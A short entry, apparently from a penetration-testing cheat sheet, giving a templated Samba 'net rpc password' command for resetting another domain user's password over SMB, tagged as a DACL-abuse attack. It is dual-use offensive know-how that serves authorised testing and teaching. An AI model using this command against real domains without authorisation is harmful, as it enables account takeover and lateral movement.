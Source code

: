 # samba

## reset password
#plateform/linux #target/remote  #port/445 #protocol/smb #cat/ATTACK/DACL-ABUSE 
```
net rpc password '<target_user>' '<new_password>' -U '<domain_netbios>'/'<user>'%'<password>' -S "<dc>"
```